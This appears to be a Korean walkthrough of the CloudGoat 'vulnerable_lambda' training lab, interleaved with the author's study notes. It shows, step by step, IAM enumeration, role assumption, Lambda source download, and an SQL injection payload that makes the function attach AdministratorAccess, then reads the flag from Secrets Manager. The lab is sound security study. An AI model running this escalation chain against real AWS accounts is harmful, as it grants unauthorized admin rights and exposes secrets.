

# 11th Scenario: Vulnerable_Lambda

[← CloudGoat 시나리오 목록](../README.md)

난이도: Medium 




# 진행

## 전체 공격 흐름

```
Bilbo IAM 사용자
  │ IAM 정보 조회
  ▼
Lambda Invoker 역할 AssumeRole
  │ Lambda 조회·코드 다운로드·호출
  ▼
취약한 Lambda 함수
  │ SQL Injection
  ▼
Lambda 실행 역할이 Bilbo에게 AdministratorAccess 부착
  │
  ▼
기존 Bilbo 키로 Secrets Manager의 최종 플래그 조회
```

여기에는 세 가지 신원이 등장합니다.

| 신원 | 용도 | 주요 권한 |
| --- | --- | --- |
| `cg-bilbo-...` | 최초 공격자 | IAM 조회 |
| `cg-lambda-invoker-...` | Bilbo가 맡는 역할 | Lambda 조회·호출 |
| `...-policy_applier_lambda1` | Lambda 함수의 실행 역할 | Bilbo에게 관리형 정책 부착 |

마지막 실행 역할은 우리가 직접 `AssumeRole`하는 역할이 아닙니다. Lambda 서비스가 함수를 실행할 때 자동으로 사용하는 역할입니다.

---

## 0. 이 시나리오의 특이사항

설치된 파일에는 몇 가지 오래된 내용이 있습니다.

- README에는 IAM 역할이 하나라고 되어 있지만 실제로는 두 개가 생성됩니다.
- README의 순서와 달리 Bilbo로는 Lambda를 조회할 수 없으므로 먼저 Invoker 역할을 맡아야 합니다.
- Bilbo 정책의 `AssumeRole` 대상 ARN에는 다른 AWS 계정 번호가 잘못 고정돼 있습니다. `terraform/iam.tf:31`
- 하지만 역할의 신뢰 정책이 같은 계정의 Bilbo 사용자 ARN을 직접 허용하므로 수정 없이도 `AssumeRole`할 수 있습니다. 같은 계정에서 신뢰 정책이 사용자를 직접 지정하면 별도의 identity policy가 없어도 된다는 것이 AWS의 공식 동작입니다. [AWS AssumeRole 문서](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html)
- Lambda 런타임은 Python 3.9입니다. 이미 지원 종료 상태지만 신규 함수 생성 차단은 2027년 2월 1일부터라 현재는 Terraform/API 배포가 가능합니다. [AWS Lambda 런타임 일정](https://docs.aws.amazon.com/lambda/latest/dg/lambda-runtimes.html)

따라서 지금은 템플릿을 수정하지 않고 진행하는 편이 좋습니다.

---

## 1. 시나리오 생성

```
cloudgoat create vulnerable_lambda
```

완료되면 생성된 디렉터리로 이동합니다.

```
cd ~/.local/lib/python3.10/site-packages/cloudgoat/vulnerable_lambda_cgid*
ls
cat start.txt
```

`start.txt`에는 Bilbo 사용자의 Access Key ID와 Secret Access Key가 있습니다.

이 키는 여기 대화창에 올리지 말고 로컬에서만 사용하세요.

프로필을 등록합니다.

```
aws configure --profile bilbo_vl
```

입력값은 다음과 같습니다.

```
AWS Access Key ID: start.txt의 access key
AWS Secret Access Key: start.txt의 secret key
Default region name: us-east-1
Default output format: json
```

서울에 있더라도 이번 시나리오의 Lambda와 Secrets Manager는 `us-east-1`에 배포됩니다. 사용자 위치와 AWS 리소스 리전은 별개의 개념입니다.

---

## 2. 최초 신원과 변수 확인

```
aws sts get-caller-identity \
  --profile bilbo_vl \
  --region us-east-1
```

정상이라면 ARN 끝부분이 다음과 비슷합니다.

```
arn:aws:iam::<계정번호>:user/cg-bilbo-cgid...
```

앞으로 이름을 계속 복사하지 않도록 변수로 저장합니다.

- 다시 easy 때 계속하던 것이 떠올라 안정감이 느껴진다. 웹해킹을 하니 막 불안하고 손이 벌벌떨렸다.
    - 그리고 이번에는 초기 계정을 제공해주니 prowler를 이용해서 실사용이 가능할 것 같다.


```
BILBO_ARN="$(aws sts get-caller-identity \
  --profile bilbo_vl \
  --query Arn \
  --output text)"

BILBO_USER="${BILBO_ARN##*/}"
CGID="${BILBO_USER#cg-bilbo-}"

printf 'Bilbo ARN : %s\nBilbo User: %s\nCGID      : %s\n' \
  "$BILBO_ARN" "$BILBO_USER" "$CGID"
```

여기서:

- `${BILBO_ARN##*/}`는 마지막 `/` 앞부분을 모두 제거합니다.
- `${BILBO_USER#cg-bilbo-}`는 사용자명의 접두사만 제거해 CGID를 얻습니다.
- 이 변수들은 현재 터미널에서만 유지됩니다.

---

## 3. Bilbo의 초기 정책 조사

먼저 사용자에게 직접 들어간 inline policy 이름을 찾습니다.


- 인라인 정책을 확인


일단 Role을 얻을 수 있는 lambda-invoker에 대해서 assume-role 명령어사용이 가능한 것을 확인하였다. 

그리고  get와 list에 대한 모든 명령어와 policy 시뮬 관련 명령어 2개의 허용되어있는 것을 확인할 수 있었다. 

추가 정책도 확인합니다.

```
aws iam list-attached-user-policies \
  --user-name "$BILBO_USER" \
  --profile bilbo_vl

aws iam list-groups-for-user \
  --user-name "$BILBO_USER" \
  --profile bilbo_vl
```


관리형 정책에는 아무것도 없는 것을 볼 수 있다. 

---

## 4. 역할 두 개를 구분하기

CGID가 들어간 역할을 봅니다.

```
aws iam list-roles \
  --profile bilbo_vl \
  --query "Roles[?contains(RoleName, '$CGID')].[RoleName,Arn]" \
  --output table
```

두 역할이 나올 가능성이 큽니다.

```
cg-lambda-invoker-<CGID>
<CGID>-policy_applier_lambda1
```

구분은 다음과 같습니다.


- `cg-lambda-invoker-...`: Bilbo가 직접 맡을 역할
- `...-policy_applier_lambda1`: Lambda 서비스가 사용하는 실행 역할

Invoker 역할을 변수에 저장합니다.

```
ROLE_ARN="$(aws iam list-roles \
  --profile bilbo_vl \
  --query "Roles[?contains(RoleName, '$CGID') && contains(RoleName, 'lambda-invoker')].Arn | [0]" \
  --output text)"

ROLE_NAME="${ROLE_ARN##*/}"

printf 'Role name: %s\nRole ARN : %s\n' "$ROLE_NAME" "$ROLE_ARN"
```


여기서 `--query`는 단순 문자열 `grep`보다 구조적인 필터입니다.

- `Roles[...]`: JSON의 `Roles` 배열을 대상으로 함
- `?contains(...)`: 조건에 맞는 역할만 필터링
- `.Arn`: ARN 필드만 선택
- `| [0]`: 결과 중 첫 번째 값 선택

### 역할의 신뢰 정책

```
aws iam get-role \
  --role-name "$ROLE_NAME" \
  --profile bilbo_vl \
  --query 'Role.AssumeRolePolicyDocument'
```

여기서 `Principal`이 $BILBO_ARN인지 확인하세요.


신뢰 정책은 “누가 이 역할을 맡을 수 있는가?”를 정의합니다.

- 까먹고 있었다가 깨달았는데,
    - assume-role로 역할을 얻으려면은 bilbo → lambda_invoker도 가능해야하지만
    - lambda_invoker도 bilbo에 대해서 허용을 해야한다.
    - 즉 지금은 저 invoker도 bilbo를 가리키고 있는지 확인하는 것이다.

### 역할을 맡았을 때 생기는 권한

```
aws iam list-role-policies \
  --role-name "$ROLE_NAME" \
  --profile bilbo_vl

ROLE_POLICY_NAME="$(aws iam list-role-policies \
  --role-name "$ROLE_NAME" \
  --profile bilbo_vl \
  --query 'PolicyNames[0]' \
  --output text)"

aws iam get-role-policy \
  --role-name "$ROLE_NAME" \
  --policy-name "$ROLE_POLICY_NAME" \
  --profile bilbo_vl
```

여기서는 다음 Lambda 권한을 발견해야 합니다.

```
lambda:ListFunctions
lambda:GetFunction
lambda:GetPolicy
lambda:InvokeFunction
```

즉 역할을 맡으면 Lambda를 발견하고, 소스 코드를 받고, 직접 호출할 수 있습니다.

- lambda-invoker의 인라인 정책을 확인하였다.


---

## 5. Invoker 역할 AssumeRole

수동으로 Access Key, Secret Key, Session Token을 복사할 수도 있지만 AWS CLI 역할 프로필을 사용하면 훨씬 편합니다.

```
aws configure set role_arn "$ROLE_ARN" \
  --profile lambda_invoker_vl

aws configure set source_profile bilbo_vl \
  --profile lambda_invoker_vl

aws configure set role_session_name cloudgoat-vulnerable-lambda \
  --profile lambda_invoker_vl

aws configure set region us-east-1 \
  --profile lambda_invoker_vl
```

확인합니다.

```
aws sts get-caller-identity \
  --profile lambda_invoker_vl
```


- 오 좀 편리한 시스템을 알게 되었다.

ARN이 다음 형태여야 합니다.

```
arn:aws:sts::<계정번호>:assumed-role/cg-lambda-invoker-.../cloudgoat-vulnerable-lambda
```

이 프로필을 사용할 때 AWS CLI가 내부적으로 다음 일을 합니다.

1. `bilbo_vl` 키를 읽음
2. `sts:AssumeRole` 호출
3. 임시 Access Key, Secret Key, Session Token 발급
4. 임시 자격증명을 자동으로 캐싱하고 사용

Bilbo 자체의 정책이 변경된 것은 아닙니다. 지금은 다른 역할의 임시 권한을 빌린 상태입니다.

---

## 6. Lambda 발견 및 실행 역할 조사

```
aws lambda list-functions \
  --profile lambda_invoker_vl \
  --region us-east-1 \
  --query "Functions[?contains(FunctionName, '$CGID')].[FunctionName,Runtime,Role,Description]" \
  --output table
```


함수 이름을 저장합니다.

```
FUNCTION_NAME="$(aws lambda list-functions \
  --profile lambda_invoker_vl \
  --region us-east-1 \
  --query "Functions[?contains(FunctionName, '$CGID') && contains(FunctionName, 'policy_applier_lambda1')].FunctionName | [0]" \
  --output text)"

echo "$FUNCTION_NAME"
```


함수 설정을 조회합니다.

```
aws lambda get-function \
  --function-name "$FUNCTION_NAME" \
  --profile lambda_invoker_vl \
  --region us-east-1 \
  --query '{
    FunctionName:Configuration.FunctionName,
    Runtime:Configuration.Runtime,
    ExecutionRole:Configuration.Role,
    Description:Configuration.Description
  }'
```


이제 Lambda 실행 역할을 조사합니다.

```
EXEC_ROLE_ARN="$(aws lambda get-function \
  --function-name "$FUNCTION_NAME" \
  --profile lambda_invoker_vl \
  --region us-east-1 \
  --query 'Configuration.Role' \
  --output text)"

EXEC_ROLE_NAME="${EXEC_ROLE_ARN##*/}"

aws iam list-role-policies \
  --role-name "$EXEC_ROLE_NAME" \
  --profile lambda_invoker_vl
```

정책 내용까지 확인합니다.

```
EXEC_POLICY_NAME="$(aws iam list-role-policies \
  --role-name "$EXEC_ROLE_NAME" \
  --profile lambda_invoker_vl \
  --query 'PolicyNames[0]' \
  --output text)"

aws iam get-role-policy \
  --role-name "$EXEC_ROLE_NAME" \
  --policy-name "$EXEC_POLICY_NAME" \
  --profile lambda_invoker_vl
```


핵심 권한은 다음입니다.

```
iam:AttachUserPolicy
```

대상 `Resource`는 Bilbo 사용자 ARN 하나입니다.

즉, 이 함수는 아무 사용자나 관리자화할 수는 없지만 공격자인 Bilbo에게는 정책을 붙일 수 있습니다. 이것만으로 충분한 권한 상승 경로가 됩니다.

---

## 7. Lambda 소스 코드 다운로드

`get-function`은 ZIP 파일 자체가 아니라 다운로드용 사전 서명 URL을 제공합니다. [AWS get-function 문서](https://docs.aws.amazon.com/cli/latest/reference/lambda/get-function.html)

```
mkdir -p lambda_artifact/source

CODE_URL="$(aws lambda get-function \
  --function-name "$FUNCTION_NAME" \
  --profile lambda_invoker_vl \
  --region us-east-1 \
  --query 'Code.Location' \
  --output text)"

curl --fail --location --silent --show-error \
  "$CODE_URL" \
  --output lambda_artifact/function.zip

unzip -o lambda_artifact/function.zip \
  -d lambda_artifact/source
```


다운로드 URL은 짧은 시간만 유효하므로 URL을 받은 뒤 바로 내려받는 것이 좋습니다.

파일을 확인합니다.

```
find lambda_artifact/source \
  -maxdepth 1 \
  -type f \
  -printf '%f\n'

sed -n '1,140p' lambda_artifact/source/main.py
```

- 전체 코드

```html
tabulate.py
six.py
main.py
requirements.txt
my_database.db
click_default_group.py
import boto3
from sqlite_utils import Database

db = Database("my_database.db")
iam_client = boto3.client('iam')

# db["policies"].insert_all([
#     {"policy_name": "AmazonSNSReadOnlyAccess", "public": 'True'}, 
#     {"policy_name": "AmazonRDSReadOnlyAccess", "public": 'True'},
#     {"policy_name": "AWSLambda_ReadOnlyAccess", "public": 'True'},
#     {"policy_name": "AmazonS3ReadOnlyAccess", "public": 'True'},
#     {"policy_name": "AmazonGlacierReadOnlyAccess", "public": 'True'},
#     {"policy_name": "AmazonRoute53DomainsReadOnlyAccess", "public": 'True'},
#     {"policy_name": "AdministratorAccess", "public": 'False'}
# ])

def handler(event, context):
    target_policys = event['policy_names']
    user_name = event['user_name']
    print(f"target policys are : {target_policys}")

    for policy in target_policys:
        statement_returns_valid_policy = False
        statement = f"select policy_name from policies where policy_name='{policy}' and public='True'"
        for row in db.query(statement):
            statement_returns_valid_policy = True
            print(f"applying {row['policy_name']} to {user_name}")
            response = iam_client.attach_user_policy(
                UserName=user_name,
                PolicyArn=f"arn:aws:iam::aws:policy/{row['policy_name']}"
            )
            print("result: " + str(response['ResponseMetadata']['HTTPStatusCode']))

        if not statement_returns_valid_policy:
            invalid_policy_statement = f"{policy} is not an approved policy, please only choose from approved " \
                                       f"policies and don't cheat. :) "
            print(invalid_policy_statement)
            return invalid_policy_statement

    return "All managed policies were applied as expected."

if __name__ == "__main__":
    payload = {
        "policy_names": [
            "AmazonSNSReadOnlyAccess",
            "AWSLambda_ReadOnlyAccess"
        ],
        "user_name": "cg-bilbo-user"
    }
    print(handler(payload, 'uselessinfo'))
```

취약 지점을 좁혀 봅니다.

```
rg -n \
  'policy_names|statement =|public=|attach_user_policy' \
  lambda_artifact/source/main.py
```


핵심 코드는 다음 구조입니다.

```
statement = (
    f"select policy_name from policies "
    f"where policy_name='{policy}' and public='True'"
)
```

사용자 입력인 `policy`가 SQL 문자열에 그대로 들어갑니다. 이것이 SQL Injection입니다.

SQLite 데이터베이스도 확인합니다.

```
python3 -c '
import sqlite3
db = sqlite3.connect("lambda_artifact/source/my_database.db")
print(*db.execute(
    "SELECT policy_name, public FROM policies"
).fetchall(), sep="\n")
'
```

여러 읽기 전용 정책은 `True`지만 `AdministratorAccess`는 `False`로 나올 것입니다.

여기서 `public`은 AWS IAM 용어가 아니라 이 애플리케이션이 자체적으로 만든 승인 여부 필드입니다.

---

## 8. SQL Injection payload 만들기

payload를 자동 생성합니다.

```
jq -n \
  --arg user "$BILBO_USER" \
  --arg policy "AdministratorAccess' -- " \
  '{policy_names: [$policy], user_name: $user}' \
  > payload.json

jq . payload.json
```

결과는 다음 형태입니다.

```
{
  "policy_names": [
    "AdministratorAccess' -- "
  ],
  "user_name": "cg-bilbo-현재CGID"
}
```


원래 SQL은 다음과 같습니다.

```
select policy_name
from policies
where policy_name='사용자입력'
  and public='True'
```

payload가 들어가면 다음처럼 변합니다.

```
select policy_name
from policies
where policy_name='AdministratorAccess' -- ' and public='True'
```

- `-`  이후가 SQL 주석이 되므로 `public='True'` 검사가 사라집니다.

따라서 데이터베이스는 `public=False`인 `AdministratorAccess` 행을 반환하고, 함수는 그 결과를 이용해 다음 정책 ARN을 Bilbo에게 붙입니다.

```
arn:aws:iam::aws:policy/AdministratorAccess
```

CloudGoat 치트시트는 이를 “추가 명령을 주입한다”고 설명하지만, 정확히는 추가 SQL문 실행이 아니라 승인 조건을 주석 처리하는 필터 우회입니다.

---

## 9. Lambda 호출

```
aws lambda invoke \
  --function-name "$FUNCTION_NAME" \
  --payload fileb://payload.json \
  --profile lambda_invoker_vl \
  --region us-east-1 \
  response.json
```

함수 응답도 확인합니다.

```
jq . response.json
```


`fileb://`를 사용했기 때문에 payload를 직접 Base64로 변환할 필요가 없습니다. Lambda CLI는 payload 파일 입력을 지원합니다. [AWS Lambda invoke 문서](https://docs.aws.amazon.com/cli/latest/reference/lambda/invoke.html)

정상이라면 명령 출력에 다음이 나타납니다.

```
{
  "StatusCode": 200
}
```

그리고 `response.json`에는 성공 메시지가 들어갑니다.

주의할 점은 `StatusCode: 200`이 “Lambda 서비스가 호출을 받아들였다”는 뜻이라는 것입니다. 함수 내부 오류가 있을 수도 있으므로 반드시 `response.json`과 `FunctionError` 여부도 확인해야 합니다.

---

## 10. Bilbo 권한 상승 확인

Invoker 프로필이 아니라 원래 Bilbo 프로필로 확인합니다.

```
aws iam list-attached-user-policies \
  --user-name "$BILBO_USER" \
  --profile bilbo_vl \
  --query 'AttachedPolicies[].[PolicyName,PolicyArn]' \
  --output table
```

다음 정책이 보여야 합니다.

```
AdministratorAccess
arn:aws:iam::aws:policy/AdministratorAccess
```

신원도 다시 확인해 보세요.

```
aws sts get-caller-identity \
  --profile bilbo_vl
```


여전히 Bilbo입니다. 신원은 그대로고, Bilbo에게 연결된 권한만 관리자 수준으로 변한 것입니다. 새 Access Key가 발급된 것도 아닙니다.

---

## 11. Secrets Manager에서 최종 값 찾기

다른 개인 비밀을 불필요하게 출력하지 않도록 현재 CGID로만 필터링합니다.

```
aws secretsmanager list-secrets \
  --profile bilbo_vl \
  --region us-east-1 \
  --filters "Key=name,Values=$CGID" \
  --query 'SecretList[].[Name,ARN]' \
  --output table
```

이름은 일반적으로 다음 형태입니다.

```
<CGID>-final_flag
```

변수에 저장하고 값을 읽습니다.

```
SECRET_NAME="${CGID}-final_flag"

aws secretsmanager get-secret-value \
  --secret-id "$SECRET_NAME" \
  --profile bilbo_vl \
  --region us-east-1 \
  --query SecretString \
  --output text
```

여기서 `cg-secret-...` 형식의 최종 값이 나오면 완료입니다.


정책 부착 직후 `AccessDenied`가 한 번 나온다면 IAM 권한 전파가 아직 끝나지 않았을 수 있으므로 잠시 뒤 같은 명령을 다시 실행하세요.

---

## 12. 실습 종료

```
cloudgoat destroy vulnerable_lambda
```

확인:

```
cloudgoat list deployed
```

이 시나리오의 정리 스크립트는 Bilbo에게 동적으로 부착된 관리형 정책까지 분리하도록 작성돼 있습니다. 로컬의 `bilbo_vl`, `lambda_invoker_vl` 프로필은 남을 수 있지만 AWS 사용자가 삭제되었기 때문에 더는 작동하지 않습니다.

우선 1~5단계까지 진행한 뒤 `get-caller-identity`, 사용자 정책, 역할 목록 결과를 올려주면 키 값은 가린 상태로 현재 결과를 함께 해석해 나갈 수 있습니다.